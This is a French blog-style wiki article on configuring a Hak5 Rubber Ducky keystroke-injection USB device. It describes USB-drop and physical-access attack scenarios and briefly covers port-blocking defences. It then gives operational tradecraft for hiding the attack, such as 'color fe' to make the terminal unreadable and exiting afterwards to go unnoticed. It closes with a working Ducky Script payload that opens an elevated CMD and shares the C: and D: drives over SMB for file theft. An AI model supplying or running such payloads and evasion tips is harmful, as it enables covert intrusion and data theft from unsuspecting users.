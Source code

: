 ```yaml
---
title: Rubber Ducky
type: WIKI
categories:
  - system
  - security
description: Configuration d'un équipement Rubber Ducky.
author: Flavien PERIER <perier@flavien.io>
date: 2021-10-31 18:00
---
```


Je tiens avant toute chose à préciser que cet article est rédigé uniquement à but pédagogique. Je n'ai jamais projeté d'attaquer quelque entreprise que ce soit. Si vos intentions en vous rendant sur ce site sont malveillantes je vous invite à consulter [l'article 323-1 du Code pénal](https://www.legifrance.gouv.fr/codes/article_lc/LEGIARTI000030939438/) qui stipule que les intrusions dans un système informatique peuvent vous couter jusqu'a deux ans d'emprisonnement et 60 000 € d'amende. Cela étant dit, je décline toute responsabilité de ce que vous ferez du contenu de cet article.

La [Rubber Ducky](https://www.usbrubberducky.com/) est un dispositif d'attaque physique vendu par [Hak5](https://hak5.org/). Extérieurement, elle ressemble à une vulgaire clé USB. Cependant, une fois connectée à un ordinateur elle est reconnue comme un clavier et va pouvoir exécuter une série d'instructions prédéfinie par l'attaquant.

![USB Rubber Ducky](https://medias.flavien.io/articles/rubber-ducky/rubber-ducky.webp)

## Avantage de la conception

Le principal avantage de la Rubber Ducky est qu'elle n'exploite pas des vulnérabilités logicielles, mais s'appuie sur la simulation du hardware d'un clavier physique. Le système d'exploitation n'a donc aucune façon de différencier ce périphérique de n'importe quel autre clavier. La Rubber Ducky est donc complètement indétectable par les antivirus. 

## Vecteurs d'attaque

Il existe de nombreux scénarios d'attaque imaginables avec ce type d'appareil. En voici deux petits exemples :

- Dans le cas où un hacker arriverait à pénétrer physiquement dans les locaux d'une entreprise, ce type d'équipement pourrait lui permettre de gagner du temps dans le cas ou il trouverait, un pc déverrouillé. Il lui suffit de brancher la Rubber Ducky et d'attendre que le script se déroule (généralement seulement quelques secondes).

- Autres scénarios où le hacker n'arriverait pas à accéder aux locaux, il serait envisageable d'abandonner le dispositif dans un lieu fréquenté par les employés de cette entreprise (comme par exemple le parking de l'entreprise). Dans la plupart des cas, la personne qui va trouver le dispositif va le brancher afin de visualiser son contenu. Erreur qui pourrait être fatale et permettre au hacker de s'infiltrer dans le réseau d'une entreprise sans même avoir à y accéder physiquement.

## Comment s'en défendre

Comme nous l'avons vu, une attaque effectuée par une Rubber Ducky est indétectable par nos antivirus. Pour s'en défendre, il faut donc une approche qui ne soit pas logiciel.

La plupart des entreprises interdisent à leurs employés de connecter des clés USB à leurs ordinateurs, mais ne les empêchent pas non plus de le faire... Conclusion, ils ne se privent pas.

Il existe de nombreuses sociétés commercialisant des dispositifs permettant de bloquer l'accès à un port USB comme par exemple, [Lindy](https://lindy.com/fr/technologie/bloqueurs-de-ports/). Ce type de protection permet d'éviter qu'un employé ou un attaquant connecte un périphérique USB non désiré. D'autres, plus extrémistes, détruisent tout simplement les ports USB non utilisés (ce qui est dommage à mon sens quand on peut simplement les verrouiller). Il reste cependant un certain nombre de ports USB qu'on ne peut pas condamner, car utilisé (clavier, souris, webcam...). Si aucun port n'est libre, il est assez peu probable qu'un employé prenne le temps de débrancher un périphérique dont il a besoin afin de connecter la clé USB qu'il vient de trouver. Cependant cela ne va très certainement pas arrêter un hacker s'il en a le temps. Une solution pourrait consister à souder les périphériques branchés au châssis.

Il est cependant évident qu'il n'est pas forcément nécessaire d'en arriver là. Cela dépend de la criticité des informations auxquelles l'employé a accès et du réseau sur lequel il se trouve.

## Comment s'en servir

La première étape consiste à démonter la Rubber Ducky. À l'intérieur ce trouve une carte micros-sd c'est sur cette dernière que nous allons travaillé et pouvoir déposer notre payload.

### Installation de l'environnement

Le langage de la Rubber Ducky (le [Ducky Script](https://docs.hak5.org/hc/en-us/articles/360049449314-Ducky-Script-Command-Reference)) est compilé. Il faut donc utiliser un logiciel afin de transformer notre code en instruction compris par notre équipement.

Il est possible d'utiliser [le compiler en ligne proposée par Hak5](https://shop.hak5.org/pages/ducky-encoder) ou d'installer directement [l'outil java en ligne de commande](https://github.com/hak5darren/USB-Rubber-Ducky/releases/download/v2.6.3/encoder.jar).

Pour utiliser l'outil, il suffit d'utiliser la ligne de commande suivante :

```bash
java -jar encoder.jar -l fr -i script.txt -o inject.bin 
```

Une fois notre code compilé d'une façon ou d'une autre, il suffit de le mettre à la racine de la carte avec le nom `inject.bin`.

### Quelques exemples de scripts

Il existe plusieurs sites qui proposent des scripts déjà tout faits. Il est intéressent de passer par la afin de s'en inspirer :

- [GitHub de Hak5](https://github.com/hak5/usbrubberducky-payloads)
- [Hacktoday](https://thehacktoday.com/60-best-rubber-ducky-usb-payloads/)

#### Quelques conseils

- Toujours essayer de faire passer le script sur une unique ligne chainer avec des `&&` des `||` et des `;`. Cela permet de débrancher la clé USB au plus tôt. En effet une fois la ligne tapée et lancée, le payload va poursuivre son exécution même si l'on débranche la clé.

- Sur Windows, préférez l'utilisation de CMD à PowerShell (si on utilise des instructions PowerShell, les exécuter depuis le CMD). La raison est que CMD démarre beaucoup plus rapidement et que par extension, notre script à moins de chance de commencer à écrire avant que le terminal soit chargé.

- Bien penser à commencer le script par `color fe`. Cela va passer la couleur de CMD en Jaune claire sur blanc (rendant le déroulement illisible par un humain). Le temps que l'utilisateur comprenne ce qui se passe, il sera déjà trop tard.

- Terminer le script par un exit afin de fermer le terminal après le méfait et donc passer plus facilement inaperçu.

#### Partage des disques durs sur le réseau

Un premier petit payload, qui est en réalité assez inoffensif pour les entreprises dans la mesure ou le script demande un accès administrateur (qui n'est en général pas offert aux employés).

Le but est ici de transformer les disques `C:` et `D:` d'un Windows en lecteurs réseaux. L'attaquant n'aura par la suite qu'à récupérer les fichiers qu'ils contiennent. Cela implique cependant que l'attaquant ait accès au réseau et connaisse l'IP de ça vctime.

```txt
REM Flavien PERIER <perier@flavien.io>
DEFAULT_DELAY 300

DELAY 1000
GUI r
STRING cmd
CTRL-SHIFT ENTER
DELAY 700
TAB
TAB
ENTER

STRING color fe && powershell "New-SmbShare -Name C -Path C:\ -FullAccess administrateur ; New-SmbShare -Name D -Path D:\ -FullAccess administrateur" || exit
ENTER
```
